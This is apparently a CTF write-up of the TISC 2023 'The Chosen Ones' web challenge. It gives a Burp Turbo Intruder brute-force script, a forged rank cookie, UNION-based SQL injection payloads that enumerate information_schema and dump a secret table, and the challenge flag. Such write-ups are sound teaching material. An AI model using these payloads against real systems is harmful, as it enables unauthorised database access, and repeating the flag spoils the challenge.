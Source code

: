 ```yaml
---
title: TISC 2023 - (Level 6b) The Chosen Ones
date: 2023-10-05 20:00:00 +0800
categories: [ctf]
tags: [web]
render_with_liquid: false
image:
    path: /assets/images/tisc2023/tisc2023.jpg
---
```

## Description

> We have discovered PALINDROME's recruitment site. Infiltrate it and see what you can find!
> 
> [http://chals.tisc23.ctf.sg:51943](http://chals.tisc23.ctf.sg:51943)

## Solution

The website is shown as below:

![](/assets/images/tisc2023/Pasted image 20231001230826.png)

After a number is submitted, it then mentions the correct lucky number.

![](/assets/images/tisc2023/Pasted image 20231001230944.png)

My first guess was that the lucky numbers may repeat themselves at some point in time, so I decided to use the Turbo Intruder extension in Burp suite to make multiple submissions so that I test whether my guess was right:

![](/assets/images/tisc2023/Pasted image 20231001232454.png)

Since the number is submitted via the `entry` URL parameter, its value is set to `%s` like so in Turbo Intruder:

```
GET /index.php?entry=%s HTTP/1.1
```

Here is the Turbo Intruder script I used:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=10,
                           pipeline=False
                           )

    for i in range(1, 1000000):
        engine.queue(target.req, i)
        
def handleResponse(req, interesting):
    import re
    
    if interesting:
        req.label = "Lucky number: " + re.findall(r"Too bad. The lucky number was (\d+)", req.response)[0]
        table.add(req)
```

The Turbo Intruder script was then executed and the results are shown below:

![](/assets/images/tisc2023/Pasted image 20231001232727.png)

Here, it can be observed that my guess was correct as a few numbers were seen to be repeating. Among these numbers, the lucky number `989691` was chosen and the Turbo Intruder script was updated so only submit this number until I got it right:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=10,
                           pipeline=False
                           )

    for i in range(1, 1000000):
        engine.queue(target.req, 989691)
        
def handleResponse(req, interesting):
    if interesting:
        table.add(req)
```

The Turbo Intruder script was then executed and the results are shown below:

![](/assets/images/tisc2023/Pasted image 20231001233237.png)

Based on this, it could be concluded that if the lucky number is correct, the website adds a cookie `rank=0` and redirects the browser to `main.php`. After adding the `rank=0` to the browser like so:

![](/assets/images/tisc2023/Pasted image 20231001233000.png)

The `/main.php` page is then visited:

![](/assets/images/tisc2023/Pasted image 20231002000749.png)

The page allowed for the filtering of the first name and last name of the personnel records. Testing various SQL injection payloads in these fields did not work as the website seemed to be blocking them. 

However, I also observed that the rank of all of these personnel returned seemed to coincide with the value of the `rank` cookie in the browser. If the value of the `rank` cookie is set to 1 like so:

![](/assets/images/tisc2023/Pasted image 20231002001320.png)

The page now returns even more personnel records, some with rank 0 and rank 1. This meant the page was also filtering for records that have a `rank` less than or equals to the value of the `rank` cookie:

![](/assets/images/tisc2023/Pasted image 20231002001333.png)

SQL injection payloads were then tested on the `rank` cookie and it was discovered to be SQL-injectable. The next step was figuring out the number of columns:

```
rank=-1 UNION SELECT null                -- => 500 Internal Server Error
rank=-1 UNION SELECT null,null           -- => 500 Internal Server Error
rank=-1 UNION SELECT null,null,null      -- => 500 Internal Server Error
rank=-1 UNION SELECT null,null,null,null -- => 200 OK
```

The number of columns was 4. The flag was likely stored in another table in the database, hence the next step was viewing all tables names:

```
rank=-1 UNION SELECT TABLE_NAME,null,null,null from information_schema.tables --
```

![](/assets/images/tisc2023/Pasted image 20231002001647.png)

Knowing that the table was `CTF_SECRET`, the next step was viewing all column names:

```
rank=-1 UNION SELECT COLUMN_NAME,null,null,null from information_schema.columns where TABLE_NAME = 'CTF_SECRET' --
```

![](/assets/images/tisc2023/Pasted image 20231002001837.png)

Now that the table name and column name were known, the final step would be to retrieve the flag:

```
rank=-1 UNION SELECT flag,null,null,null from CTF_SECRET --
```

![](/assets/images/tisc2023/Pasted image 20231002001923.png)

## Flag

`TISC{Y0u_4rE_7h3_CH0s3n_0nE}`
